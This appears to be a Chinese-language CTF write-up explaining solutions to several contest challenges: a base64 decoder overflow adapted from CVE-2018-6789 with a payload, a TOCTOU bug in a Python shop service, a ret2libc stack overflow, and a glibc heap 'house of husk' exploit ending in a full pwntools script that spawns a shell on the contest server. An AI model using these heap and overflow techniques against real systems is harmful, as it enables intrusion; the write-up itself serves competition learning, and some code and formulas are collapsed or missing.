


主的替代品
输出 main 字符串很简单（比如分段输出），此题重点是如何声明 main 函数。
预期方法是用宏，可以用两个井号 (##) 连接字符，或者用反斜杠 (\) 连接两行。
一个可能的答案：
xxxxxxxxxxint MAIN(){ printf("ma%cn\n", 'i'); return 0;}皮浪的解码器
本题改编自 CVE-2018-6789，大幅降低了漏洞利用难度。
漏洞在 b64decode 函数检查缓冲区长度时的计算错误。

当 code_len=935 时，可以通过一开始的检查。准确地说，当输入长度为 时，函数检查输出长度为 ，却实际上会向缓冲区写入 个字节。
当 时，dec 会溢出一个字节到 declen 变量，可以把 declen 篡改成一个较大的值，进而在输出 decode 结果的时候把 flag 也输出出来。
一个可能的答案：
xxxxxxxxxxYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYf8
弗拉梅尔的宝石商店
可以从 service.cpython-38.pyc 文件逆向得到 service.py 源代码。
一个常用的pyc逆向工具是 decompile3。
反编译时可能会遇到报错，是因为逆向工具存在 bug （或者尚不支持的字节码），比如 except 语句块里写 return 就会报错。
其实报错的地方并不影响程序总体逻辑（其实是出题人故意挖的坑），只看能反编译出来的部分就足够做题了。
要买flag有两个困难：(1) 钱不够，(2) flag是非卖品。
关于如何赚钱，可以发现直接卖出物品是打9折的，因此没法倒手赚钱。
但卖出物品时却可以超额卖出，比如只有一个 jade，却写了两行 jade -1。
因为卖出时是先交钱再交货，第二件物品在交货时才会报错，而钱却已经到帐，空手套白狼。

注意到一次交易过程中，交易文件被读取了两次，第一次是检查合法性，第二次是实施交易。
如果在两次访问中间，文件被修改了，就可以绕过合法性检测。
这种 bug 叫做 TOCTOU (time of check to time of use)。
我们可以在 confirm 的时候发起新连接，就会再次写入同一个 /tmp/token.txt 文件，覆盖文件内容，绕过 flag 检查。

PS：本题有彩蛋，你发现了吗？
庄子的回文
漏洞位于 0x4011e9 处，scanf("%s") 栈溢出。
这是典型的 ROP（return-oriented programming）。
我们采用 ret2libc 方式解决。
见 xmcp 的验题 writeup，很详细。
←签退→
赞助商的题好难，试着做了一下。我在知道答案的前提下，还是能做出来的。。。
堆内存 UAF (use after free) 漏洞很明显，但 exploit 很困难。 此题需要深入理解 libc 的堆内存申请释放机制，可以从 CTF Wiki 学习。
预期解法是 house of husk。顺便吐槽一下，好多堆利用方法都叫 house of XXX。
printf 函数有个很小众的功能 register_printf_function，可以自定义的格式化字符串（比如可以自己实现一个 %s 格式）。
经过艰苦的 printf 源码阅读，可以发现使用该功能的有两个条件，一是 __printf_function_table 变量不为 0，二是 __printf_arginfo_table 变量不为 0 且对应表项为自定义的格式化函数。假如我们篡改了 __printf_arginfo_table['s']，在 printf 遇到 %s 时，就会调用 __printf_arginfo_table['s'] 所指向的函数。
首先，我们用 unsorted bin attack，利用堆内存 UAF 把任意内存地址改写成一个较大的数值。我们要改的内存是 global_max_fast 变量，它表示可以放入 fastbin 的堆块的最大大小。

当我们 free 一个比 global_max_fast 更小的堆块的时候，Glibc 就根据这个堆块的大小，把它放到 fastbin 对应的列表里。
一旦把 global_max_fast 篡改成较大数值，在 free 一个大堆块时就会造成 fastbin 越界写。
因此我们可以在申请堆块时，控制堆块的大小，让它释放的时候，恰好写入到 __printf_function_table 和 __printf_arginfo_table 的位置，就可以让这俩变量指向我们的堆块。

最后，只需要事先在 __printf_arginfo_table 的堆块的 s 表项写入 one gadget 地址，就可以在 printf %s 的时候获得 shell 了。

exploit 脚本如下：
xfrom pwn import *import structimport oscontext.log_level = "debug"def offset2size(x): return x * 2 - 0x10MAIN_ARENA = 0x3ebc40MAIN_ARENA_DELTA = 0x60GLOBAL_MAX_FAST = 0x3ed940PRINTF_FUNCTABLE = 0x3f0658PRINTF_ARGINFO = 0x3ec870#ONE_GADGET = 0x10a38cONE_GADGET = 0x4f3c2r = remote("prob07.geekgame.pku.edu.cn",10007)r.recvuntil("token")r.sendline(my_token)r.recvuntil("size?")r.sendline(str(offset2size(PRINTF_ARGINFO - MAIN_ARENA)))r.recvuntil("size?")r.sendline(str(offset2size(PRINTF_FUNCTABLE - MAIN_ARENA)))r.recvuntil("rename")r.sendline("y")r.recvuntil("is:")arena_addr = r.recvuntil(',',drop=True).ljust(8, b'\x00')arena_addr = struct.unpack('<Q', arena_addr)[0]print("arena:", hex(arena_addr))libc_base = arena_addr - MAIN_ARENA - MAIN_ARENA_DELTAprint("libc_base:", hex(libc_base))r.sendline(p64(arena_addr) + p64(libc_base + GLOBAL_MAX_FAST - 0x10))r.recvuntil("bigger)")r.sendline("1")r.recvuntil("edit,")r.recvline()r.recvline()r.recvline()r.sendline(b'a'*((ord('s')-2)*8) + p64(libc_base + ONE_GADGET))r.interactive()